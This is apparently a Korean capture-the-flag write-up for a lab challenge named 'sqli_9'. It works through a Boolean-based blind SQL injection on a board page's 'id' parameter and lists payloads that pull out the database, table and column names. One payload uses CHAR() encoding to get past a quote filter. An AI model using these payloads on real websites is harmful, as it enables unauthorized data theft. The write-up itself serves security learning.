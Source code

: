 [게시판 접속](./screenshots/sqli_9_burp.png)

분석 결과, `notice_read.php` 요청에서 `id` 파라미터를 조작하여 SQL Injection이 가능할 것으로 보인다.

- 먼저 `id=118+or+1=1`로 요청을 보낸 결과, **게시물이 정상적으로 출력**되었다. 반면, `id=118+or+1=2`로 요청했을 때는 **`제목: test`, `내용: testtest` 라는 이상한 게시물 출력**되었다.

- 이 결과를 통해 `id` 파라미터 값이 SQL 쿼리에 직접 삽입되고 있다는 걸 알 수 있다.

이를 기반으로 **Boolean-Based Blind SQL Injection**을 시도하여, **데이터베이스 명,테이블명, 컬럼명, 플래그 값**까지 순차적으로 추출할 예정이다.

```html
118 or ASCII(SUBSTRING(DATABASE(),?,1))=? and 1=1
```

> **데이터베이스 이름: `sqli_9`**

다음으로는 `information_schema.tables`를 활용하여, 현재 데이터베이스에 존재하는 테이블 이름을 한 글자씩 추출해보겠다.

```sql
SELECT table_name FROM information_schema.tables WHERE table_schema = 'sqli_9'
```

- 그러나 `'sqli_9'`과 같이 문자열을 따옴표로 감싸는 방식이 필터링되어 서버 응답이 정상적으로 나오지 않았다.

이에 따라 문자열 리터럴을 우회하기 위해 `CHAR()` 함수를 활용한 인코딩 방식으로 우회하였다.

```html
118 or ASCII(SUBSTRING((SELECT table_name from information_schema.tables where table_schema=CHAR(115,113,108,105,95,57) LIMIT ?,1),?,1))=? and 1=1
```

> **테이블 결과:**
```csharp
[2 행]
[1] = f → f
[2] = l → fl
[3] = a → fla
[4] = g → flag
[5] = H → flagH
[6] = e → flagHe
[7] = r → flagHer
[8] = e → flagHere
End
```

- 테이블명을 성공적으로 추출했으므로, 이제 해당 테이블의 컬럼 이름을 구해보겠다.

```html
118 or ASCII(SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_schema=CHAR(115,113,108,105,95,57) and table_name=CHAR(102,108,97,103,72,101,114,101) LIMIT ?,1),?,1))=? and 1=1
```

> **컬럼 결과:**
```csharp
1. idx
2. flag
3.
4.
5.
```

